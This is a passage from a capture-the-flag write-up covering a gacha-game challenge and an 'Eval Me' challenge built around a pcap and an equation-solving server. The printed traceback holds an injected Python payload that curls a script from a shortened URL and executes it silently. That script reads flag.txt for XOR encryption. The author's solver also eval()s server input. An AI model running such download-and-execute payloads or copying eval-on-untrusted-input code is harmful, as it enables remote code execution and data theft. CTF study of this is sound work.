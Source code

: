 Now, we can pull as much as we want! Truly the dream. So our first single pull will get us a random waifu while the second one will get us the elusive birthday waifu! But, for some reason, I didn't get an animation when I pulled her and I can't click on her portrait to view the full card.. strange. After trying a few more times I realised that I am an idiot, based on pure muscle memory, I kept clicking the skip animation button on the first pull which then skipped the animation for the birthday pull... 

So, I learnt how to get some patience and did not click the skip button this time and was able to see our wonderful birthday waifu and, as expected, our flag!
![[Pasted image 20230827123406.png]]
This is the point where I closed my email to SEGA since they asked so nicely. 

Also, as a side point, at some point during this, asset studio did finish ripping the assets from the game and confirmed that it can also get the flag by searching for the flag file in its results.
![[Pasted image 20230827123614.png]]

# Eval Me
Given File:
![[capture.pcapng]]

The interesting traffic in this capture seems to be the numbers that the user is sending to the server. Based on the fact that the server given seems to ask for the user to calculate random equations, we could assume that these are the answers to those equations. Although, the data does seem to be in hex. 

Regardless, when we pull out all the data using `strings capture.pcapng | grep '{"data":' | cut -c 10-11` we get 
`20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f`

For now we can't do anything with this so lets investigate the netcat that was given in the challenge description. Upon connecting we are told that this is a simple intro to pwntool challenge where we must solve 100 equations in a time limit to get the flag. For this, I slightly modified the script from this writeup https://ctfwriteups.trwbox.com/competitions/SnykConCTF/Calculator/ to end up with 
![[solver.py.txt]]
This solves the equations nicely until we get an error with output 
```__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell
Traceback (most recent call last):
  File "/home/kali/Downloads/solver.py", line 34, in <module>
    eq1 = eval(stringEquation)
          ^^^^^^^^^^^^^^^^^^^^
  File "<string>", line 1
    __import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell
                                         ^
SyntaxError: '(' was never closed
```
Strange. If we also run the curl command we end up downloading the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'


# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }


XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3
```
